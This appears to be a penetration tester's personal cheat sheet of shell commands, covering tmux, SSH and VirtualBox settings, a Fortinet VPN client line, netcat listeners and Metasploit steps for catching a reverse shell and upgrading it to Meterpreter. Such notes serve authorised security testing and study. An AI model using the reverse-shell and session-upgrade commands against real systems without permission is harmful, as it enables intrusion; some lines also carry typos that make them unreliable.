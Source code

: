 <h2 id="general">General</h2>	

	du -hs directory/
	cut -b 7- rpcclientusers | cut -d "]" #Parse list from enumuserinfo

<h3 id="tmux">Tmux</h3>

	#Enable mouse (Cannot copy past anymore)
	set-window-option -g mode-mouse on
	set -g mouse-select-pane on

	#Change ssh config (Kali linux)
	vim /etc/ssh/ssd_config
	PermitRootLogin yes

<h3 id="fortinet">Fortinet</h3>

	./forticlientsslvpn_cli --server server:443 --vpnuser aloha < password

<h3 id="vbox">Virtual Box</h3>

	#Enable ssh on guest machine (Mac)
	ifconfig vboxnet0
	
	auth eth1
	iface eth1
	address 192.168.56.10
	netmast 255.255.255.0
	sudo ifup eth1	

<h3 id="ncat">ncat</h3>	

	rlwrap nc -nvvv 127.0.0.1 4444
	rlwrap nc -nlvp 4444

<b>Upgrade to Meterpreter shell</b>

	#Setup Listener
	msfconsole
	use exploit/multi/handler
	set lhost 10.10.10.10.
	set lport 4444
	set payload linux/x86/shell_reverse_tcp
	run

	#Method 1
	CTRL+Z
	sessions -u [session id]
	sessions -u 1
	sessions
	sessions -i [new session id

	#Method 2
	use post/multi/manage/shell_to_meterpreter
	set session 1
	run
	sessions
	sessions -i  2
